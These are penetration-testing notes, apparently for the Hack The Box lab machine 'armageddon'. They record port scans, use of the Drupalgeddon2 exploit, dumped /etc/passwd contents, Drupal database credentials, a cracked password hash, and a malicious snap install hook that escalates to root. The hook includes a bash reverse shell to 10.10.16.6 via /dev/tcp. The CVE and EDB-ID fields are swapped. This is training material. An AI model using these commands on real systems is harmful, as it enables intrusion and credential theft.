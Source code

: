 # Summary
# Location
- IP Address: 10.129.48.89
## System Information
- OS: 
- Kernal:
- Hostname: armageddon
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri:
- username: brucetherealadmin
- password: booboo

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)



## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th

Drupal 7.56


# Exploitation
## Exploit 1
- Title: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
- CVE: 44449
- EBD-ID: 2018-7600
- Link: https://www.exploit-db.com/exploits/44449

Got the machine with Apache.

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash


      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',



uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu   a:1:{s:7:"overlay";i:1;}
3       hello   $S$Df22x2XlXubIylm9AZzS/4kBgSQrrYElz0PkoxHLqxxdvg.9Suor hello@htb.com                   filtered_html   1673355907      0       0       0       Europe/London           0       hello@htb.com   NULL

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo

brucetherealadmin:booboo

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 
make maliciouse snap to run COMMAND as root
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

COMMAND="bash -c 'exec bash -i &>/dev/tcp/10.10.16.6/4444 <&1'"

## Exploit 3
- Title:
- CVE:
- Link:

